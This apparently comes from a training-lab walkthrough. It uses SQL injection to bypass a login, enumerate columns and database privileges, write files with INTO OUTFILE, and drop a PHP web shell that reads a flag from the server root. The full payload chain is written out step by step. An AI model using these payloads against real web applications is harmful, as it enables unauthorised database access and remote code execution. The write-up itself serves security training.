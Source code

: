 ```yaml
---
description: >-
  Assess the web application and use a variety of techniques to gain remote code
  execution and find a flag in the / root directory of the file system. Submit
  the contents of the flag as your answer.
---
```


# Skills Assessment

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

```sql
admin' or '1'='1
admin' or '1'='1'
admin' or '1'='1'--
admin' or '1'='1'-- -
```

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Luckly we didn't have to spend much time building up the payload, and with the `admin' or '1'='1'-- -` we manage to bypass the authentication page.

Now, the objective is to have access to root directory of the file system. Since we confirm the web application is vulnerable to SQL injection, let's try to exploit the search field with a single quote (`'`) and see if we got any errors.

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

The search field is also indeed vulnerable to SQL  Injection. What we can now try to do is try to find how many columns is the query accepting. We can try  `' ORDER BY  1-- -` and increasing the number until we get an error:

```sql
' ORDER BY 1-- -
```

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

When we reach `' ORDER BY 6-- -` the message above is returned, so we can assume the DB has 5 columns.



<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

To prove our theory let's use the following query

```sql
' UNION select 1,2,3,4,5-- -
```

We got no errors and we got a new line

The number 1 is omitted. This may be the column used for the PRIMARY KEY, and in order to execute functions in our queries we must assure what column can return the information.



<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

```sql
' UNION select 1,@@version,3,4,5-- -
```

By placing the `@@version` in the column two, we now where to except the results to be returned.





Now, since our goal is to list a file in the root directory, we can skip listing the DB tables. Let's  check what is the current user and what kind of permissions that our current user has.

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

```sql
' UNION SELECT 1, user, 3, 4, 5 from mysql.user-- -
```

As we can see from the result abobe, the current user is root.



<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

```sql
' UNION SELECT 1, super_priv, 3, 4, 5 from mysql.user-- -
```

To move to the next step, we must first ensure that our current user has superuser privileges. The 'Y' in column two confirms it.



<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Since we have superuser privileges, we should be fine writing into to the server. But if we try to write a file in 'var/www/html/' directory we'll get the "Permission denied" message, so what we should do is writing at the folder 'var/www/html/dashboard/'.

{% code overflow="wrap" %}
```sql
' UNION SELECT 1,'This is a test!', 3, 4, 5 INTO OUTFILE '/var/www/html/dashboard/test.txt'-- -
```
{% endcode %}

When accessing the `/dashboard/test.txt` we can see the output of the file we just created.



<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Now that we confirmed we can successfully write files into the server, we can write a web shell in order to send commands to the server.

```sql
' UNION SELECT 1,'',3,4,5 INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -
```

When accessing the endpoint we must ensure we type `shell.php?0=[command]`.

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

`http://SERVER_IP:PORT/dashboard/shell.php?0=ls`

&#x20;In this case, by using the `ls` command we can list the files of the current directory.

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

`http://SERVER_IP:PORT/dashboard/shell.php?0=ls ../../../../../`

Navigating to the back using ls `../../../../../` we can see file that looks our flag.

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

`http://SERVER_IP:PORT/dashboard/shell.php?0=cat ../../../../../flag_xxxxxxxxxxxx.txt`

Issuing the cat command we successfully found our flag!



This was a very insightful and fun section to complete. Hope this walk-through was helpful, see you on the next one!





















